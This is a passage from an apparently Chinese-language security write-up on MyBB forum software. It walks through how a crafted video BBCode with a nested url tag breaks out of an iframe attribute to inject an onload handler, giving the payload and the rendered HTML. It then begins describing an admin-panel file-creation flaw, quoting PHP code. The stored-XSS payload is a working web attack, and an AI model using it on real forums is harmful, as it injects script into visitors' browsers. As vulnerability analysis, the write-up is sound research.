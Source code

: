 
最后id会经过一次htmlspecialchars_uni，然后生成模板。
```
$id = htmlspecialchars_uni($id);

eval("\$video_code = \"".$templates->get("video_{$video}_embed", 1, 0)."\";");
return $video_code;
```
当然这并不影响到我们上面的内容。

到此为止我们的内容变成了
```
<iframe width="560" height="315" src="//www.youtube.com/embed/[url]onload=alert();//[/url]" frameborder="0" allowfullscreen></iframe>
```

紧接着再经过对`[url]`的处理，上面的内容变为

```
<iframe width="560" height="315" src="//www.youtube.com/embed/<a href="http://onload=alert();//" target="_blank" rel="noopener" class="mycode_url">http://onload=alert();//</a>" frameborder="0" allowfullscreen></iframe>
```

我们再把前面的内容简化看看，链接由
```
[video=youtube]http://test/test#[url]onload=alert();//[/url]&amp;1=1[/video]
```
变成了
```
<iframe src="//www.youtube.com/embed/<a href="http://onload=alert();//"..."></iframe>
```

由于我们插入在`iframe`标签中的href被转变成了`<a href="http://onload=alert();//">`, 由于双引号没有转义，所以iframe的href在a标签的href中被闭合，而原本的a标签中的href内容被直接暴露在了标签中，onload就变成了有效的属性！

最后浏览器会做简单的解析分割处理，最后生成了相应的标签，当url中的链接加载完毕，标签的动作属性就可以被触发了。

![image.png-118kB][3]

## 管理员后台文件创建漏洞

在Mybb的管理员后台中，管理员可以自定义论坛的模板和主题，除了普通的导入主题以外，他们允许管理员直接创建新的css文件，当然，服务端限制了管理员的这种行为，它要求管理员只能创建文件结尾为`.css`的文件。

```
/admin/inc/functions_themes.php line 264

function import_theme_xml($xml, $options=array())
{
    ...
	foreach($theme['stylesheets']['stylesheet'] as $stylesheet)
    {
    	if(substr($stylesheet['attributes']['name'], -4) != ".css")
    	{
    		continue;
    	}
    	...

```


  [1]: http://static.zybuluo.com/LoRexxar/2sqg4mfyp2gxvzkgso6ukbpf/image.png
  [2]: http://static.zybuluo.com/LoRexxar/2djx25qc7zk91sre0cb57qpa/image.png
  [3]: http://static.zybuluo.com/LoRexxar/1vzl0syw0azoyze1eyjswdj6/image.png
  [4]: http://static.zybuluo.com/LoRexxar/x21og8j9jusptv8jydinfwsi/image.png
  [5]: http://static.zybuluo.com/LoRexxar/dmab7neitnrhhc9tz6vsg5kp/image.png
  [6]: http://static.zybuluo.com/LoRexxar/6hb80yi92z4d8qw6jr84ddr8/image.png
  [7]: http://static.zybuluo.com/LoRexxar/9ymykvc2nkw2iyrrcglu6mbj/image.png
  [8]: http://static.zybuluo.com/LoRexxar/534dh1kbms7bj74nd9kj1gsv/image.png
  [9]: http://static.zybuluo.com/LoRexxar/kbvn6wytobvzdkdxsf7kt1g3/image.png
  [10]: http://static.zybuluo.com/LoRexxar/hg8teug35kvvqidni2yp3wwl/image.png
  [11]: http://static.zybuluo.com/LoRexxar/92kjt8109dfzko2q6w7dwxh9/image.png
  [12]: http://static.zybuluo.com/LoRexxar/b20kmnra0fwqj0jmd5evy1d1/image.png
  [13]: http://static.zybuluo.com/LoRexxar/534dh1kbms7bj74nd9kj1gsv/image.png
  [14]: http://static.zybuluo.com/LoRexxar/6ulzp7tspenjxkw6736kp67y/image.png
  [15]: http://static.zybuluo.com/LoRexxar/02hprp4c9vbokdj0p3lczilz/image.png